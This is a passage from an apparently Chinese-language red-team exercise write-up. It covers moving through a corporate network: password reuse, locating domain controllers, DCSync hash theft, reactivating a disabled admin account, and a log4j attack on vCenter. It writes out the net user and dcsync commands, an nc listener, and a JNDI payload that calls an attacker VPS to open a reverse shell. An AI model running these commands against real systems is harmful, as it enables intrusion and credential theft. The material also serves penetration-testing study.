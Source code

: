 最后收集了一堆密码本，可登录到各重要系统：  

  
H3C堡垒机![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220926092120.png)

  

禅道![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220926092122.png)

  

 **域控** **1、通过fscan扫描的时候可以检索AD关键字发现域控**

  *   *   *   *   *   *   * 

    
    
     [*]192.168.10.38 #非真实域控ip     [->]D1-Prod-AD-P01     [->]192.168.10.38    
    [*]192.168.10.20 #非真实域控ip     [->]AD     [->]192.168.10.20

 **2、域内主机 DNS 一般就是域控地址**

接着可以通过该机器是否开放53和389端口进行进一步确认  
  

这次攻防演练的其中一个目标，通过密码复用爆破成功的某台机器里，刚好存在着域管进程，提权到system权限后注入到域管进程，通过Dcsync成功获取域管密码的hash值，其中一个被禁用的账户刚好可以通过cmd5解出，解出明文密码并激活账户，成功登录两台域控机器，除此以外还可以尝试域漏洞、NTLM中继等

  *   *   *   * 

    
    
    net group "domain admins" /domain  dcsync domain xxxx  shell net user xxxx  shell net user xxxx /active:yes /domain

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220926092123.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220926092125.png)

  

 **Vcenter** 在扫描的过程中发现几台Vcenter，Vcenter常规有三种打法，分别是：

  * 

    
    
    CVE-2021-22005-rce、CVE-2021-21972-rce和log4j

前两个测试没成功，log4j通过dnslog探测漏洞存在，vcenter的漏洞触发点在xff头部  

  *   *   * 

    
    
    java -jar JNDIExploit-1.3-SNAPSHOT.jar -l 1389 -p 8889 -i 0.0.0.0  nc -lvp 9000  ${jndi:ldap://VPSIP:1389/Deserialization/CommonsBeanutils1/ReverseShell/VPSIP/9000}

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220926092127.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220926092128.png)

  

但一般打完是非交互式shell，没有回显，这里使用命令切换为交互式shell

  * 
